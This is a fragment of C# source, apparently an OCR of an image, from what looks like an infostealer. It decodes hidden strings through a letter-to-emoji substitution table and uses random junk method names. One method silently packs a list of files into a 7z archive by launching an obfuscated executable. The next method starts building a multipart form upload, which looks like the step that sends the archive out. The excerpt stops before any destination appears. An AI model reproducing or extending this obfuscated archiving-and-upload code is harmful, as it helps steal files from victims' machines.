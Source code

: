 ```
        { "N", "\ud83c\udf8f" },
        { "O", "\ud83d\udc60" },
        { "P", "\ud83c\udf83" },
        { "Q", "\ud83c\udf75" },
        { "R", "\ud83d\uddff" },
        { "S", "\ud83d\udeb9" },
        { "T", "\ud83d\udd28" },
        { "U", "\ud83d\udd1c" },
        { "V", "\ud83d\udcaf" },
        { "W", "ℹ\ufe0f" },
        { "X", "\ud83d\udcc9" },
        { "Y", "\ud83c\ude01" },
        { "Z", "⏩" },
        { "a", "9\ufe0f\u20e3" },
        { "b", "\ud83d\udd01" },
        { "c", "\ud83d\udcd3" },
        { "d", "\ud83d\udc23" },
        { "e", "\ud83d\udc58" },
        { "f", "\ud83c\udf6f" },
        { "g", "\ud83d\udcbb" },
        { "h", "\ud83d\ude8f" },
        { "i", "\ud83d\udc8b" },
        { "j", "\ud83c\udfa9" },
        { "k", "\ud83c\udf63" },
        { "l", "\ud83d\udc5e" },
        { "m", "\ud83d\udd38" },
        { "n", "\ud83c\udf7b" },
        { "o", "\ud83d\udc9a" },
        { "p", "\ud83c\udf87" },
        { "q", "\ud83d\ude9b" },
        { "r", "\ud83d\udc88" },
        { "s", "\ud83c\udfc8" },
        { "t", "\ud83d\ude0d" },
        { "u", "\ud83d\udeb4" },
        { "v", "\ud83d\udcbf" },
        { "w", "\ud83d\udc8f" },
        { "x", "✒\ufe0f" },
        { "y", "\ud83c\udf46" },
        { "z", "\ud83c\udf67" },
        { "_", "\ud83d\udd52" },
        { "-", "\ud83d\udc4c" },
        { "/", "\ud83d\udc2e" },
        { "+", "\ud83d\udc2d" },
        { "=", "\ud83d\udd0c" }
    };

    private static void lzzmjArGgUUExMsxcUOqmdCCBrduwURYMq(string outputArchive, params string[] inputFiles)
    {
        string text = string.Join(NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83d\udc9b\ud83d\udc3d\ud83d\udd0c\ud83d\udd0c"), inputFiles.Select((string f) => "\"" + f + "\""));
        Process.Start(NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83c\udf75\ud83c\udf67\ud83c\udf87\ud83d\udcd3\ud83d\udd1c\ud83c\ude51\ud83c\udd7f\ufe0f\ud83d\udcbf⏩⚽\ud83c\udd7f\ufe0f\ud83d\ude8f\ud83d\udd01\ud83d\udeb9\ud83c\udf0a\ud83d\udc7b9\ufe0f\u20e3ℹ\ufe0f✒\ufe0f\ud83d\udc5e\ud83d\udcd3\ud83d\ude82\ud83d\udc8f⚽\ud83d\udc9c\ud83d\udcaf\ud83c\udf87\ud83c\udf87\ud83d\udcd3\ud83d\udd0e\ud83d\udc8f⚽\ud83d\udc58\ud83d\udc8b⛵\ud83d\udc5e\ud83d\udc58\ud83d\udc7b\ud83d\udd1c\ud83d\udd0c"), "a -t7z -mx5 -parameter-none \"" + outputArchive + "\" " + text)?.WaitForExit();
    }

    private static async Task hVQylKhewOSgWxHuxbNcBpLUQmdgVGemoKmKEvbqat(string filePath)
    {
        using MultipartFormDataContent YIYcePSZHvUeSMhUzZwoVHmOV = new MultipartFormDataContent();
```